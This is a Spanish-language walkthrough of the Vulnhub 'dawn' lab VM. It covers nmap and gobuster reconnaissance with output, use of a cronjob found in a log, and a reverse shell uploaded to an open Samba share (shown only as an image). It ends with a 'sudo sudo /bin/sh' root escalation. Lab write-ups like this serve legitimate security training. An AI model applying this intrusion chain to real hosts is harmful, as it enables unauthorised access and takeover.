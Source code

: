 +++
title = "dawn - Vulnhub (easy)"
+++

## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.3.3.0/24
```

![nmaphd](/images/writeups/vulnhub/dawn/nmaphd.png)

### La IP de la máquina objetivo es **10.3.3.20**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.3.3.20 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-12 15:42 EDT
Initiating ARP Ping Scan at 15:42
Scanning 10.3.3.20 [1 port]
Completed ARP Ping Scan at 15:42, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:42
Scanning 10.3.3.20 [65535 ports]
Discovered open port 139/tcp on 10.3.3.20
Discovered open port 80/tcp on 10.3.3.20
Discovered open port 445/tcp on 10.3.3.20
Discovered open port 3306/tcp on 10.3.3.20
Completed SYN Stealth Scan at 15:42, 1.41s elapsed (65535 total ports)
Nmap scan report for 10.3.3.20
Host is up, received arp-response (0.00013s latency).
Scanned at 2024-03-12 15:42:28 EDT for 2s
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 64
139/tcp  open  netbios-ssn  syn-ack ttl 64
445/tcp  open  microsoft-ds syn-ack ttl 64
3306/tcp open  mysql        syn-ack ttl 64
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 80,139,445,3306**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p80,139,445,3306 10.3.3.20 -oN scripts_exec.nmap
```



```bash
Host is up (0.00044s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, Support41Auth, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: cJ*2\X'TR}Ct?|tS!H'*
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:43:01:ED (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-03-12T15:45:17-04:00
| smb2-time: 
|   date: 2024-03-12T19:45:17
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.56 seconds
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.3.3.20/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.3.3.20/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 293]
/.hta                 (Status: 403) [Size: 288]
/.htaccess            (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 305] [--> http://10.3.3.20/logs/]
/server-status        (Status: 403) [Size: 297]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

## Archivo management.log encontrado en http://10.3.3.20/logs/

![management.log](/images/writeups/vulnhub/dawn/managementlog.png)

## Registro de cronjob en el contenido del archivo de log 

![cronjob](/images/writeups/vulnhub/dawn/cronjob.png)


## Conexión al servicio samba y subida de archivo web-control que se ejecuta cada cierto tiempo y contiene una reverse shell

```bash
smbclient --no-pass //10.3.3.20/ITDEPT
```

![revshell](/images/writeups/vulnhub/dawn/revshell.png)

## Privesc

![sudoperms](/images/writeups/vulnhub/dawn/sudoperms.png)

```bash
sudo sudo /bin/sh
```

![flagroot](/images/writeups/vulnhub/dawn/flagroot.png)